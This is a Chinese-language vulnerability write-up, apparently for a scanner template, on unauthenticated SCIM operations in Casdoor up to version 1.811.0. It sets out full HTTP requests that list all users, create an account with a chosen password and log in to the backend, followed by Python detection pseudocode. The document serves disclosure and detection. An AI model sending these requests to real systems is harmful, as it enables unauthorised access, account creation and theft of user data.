

# Casdoor <=v1.811.0 未授权 SCIM 操作漏洞（casdoor-unauth-operations）

## 漏洞简介
Casdoor ≤1.811.0 存在未授权 SCIM（System for Cross-domain Identity Management）操作漏洞，攻击者可在无需认证的情况下访问用户管理接口，进行用户信息读取、创建等敏感操作。

## 影响范围
- 受影响产品：Casdoor ≤1.811.0

## 漏洞原理
SCIM 用户管理接口未做有效认证校验，攻击者可直接访问 `/scim/Users` 进行用户信息读取、创建等操作，甚至可注册新用户并登录后台。

## 利用方式与攻击流程
1. 攻击者直接 GET `/scim/Users`，可获取全部用户信息。
2. 攻击者 POST `/scim/Users`，可创建新用户。
3. 利用新用户凭证登录后台。

## 探测原理与流程
### 请求包示例
1. 获取用户信息：
```http
GET /scim/Users HTTP/1.1
Host: target.com
```
2. 创建新用户：
```http
POST /scim/Users HTTP/1.1
Host: target.com
Content-Type: application/scim+json-H

{"active":true,"displayName":"Admin","emails":[{"value":"test@oast.fun"}],"password":"testpass","nickName":"testuser","schemas":["urn:ietf:params:scim:schemas:core:2.0:User","urn:ietf:params:scim:schemas:extension:enterprise:2.0:User"],"urn:ietf:params:scim:schemas:extension:enterprise:2.0:User":{"organization":"built-in"},"userName":"testuser","userType":"normal-user"}
```
3. 登录后台：
```http
POST /api/login HTTP/1.1
Host: target.com
Content-Type: text/plain;charset=UTF-8

{"application":"app-built-in","organization":"built-in","username":"testuser","autoSignin":true,"password":"testpass","signinMethod":"Password","type":"login"}
```

### 响应与判定逻辑
- GET `/scim/Users` 响应体包含 `urn:ietf:params:scim:schemas:core:2.0:User`、`Resources`、`emails`，且响应头含 `casdoor_session_id`，状态码为 200。
- POST `/scim/Users` 响应体包含新用户名，状态码为 201。
- 登录接口响应体包含 `"status": "ok"`，状态码为 200。

### 伪代码
```python
# 步骤1：获取用户信息
resp1 = requests.get('http://target.com/scim/Users')
# 步骤2：创建新用户
user_data = {...}
resp2 = requests.post('http://target.com/scim/Users', json=user_data)
# 步骤3：登录后台
login_data = {...}
resp3 = requests.post('http://target.com/api/login', json=login_data)
if resp1.status_code == 200 and all(x in resp1.text for x in ["urn:ietf:params:scim:schemas:core:2.0:User","Resources","emails"]) and 'casdoor_session_id' in resp1.headers.get('Set-Cookie','') and resp2.status_code == 201 and resp3.status_code == 200 and '"status": "ok"' in resp3.text:
    print('存在未授权 SCIM 操作漏洞')
```

### Mermaid 流程图


## 参考链接
- [Casdoor 官方仓库](https://github.com/casdoor/casdoor) 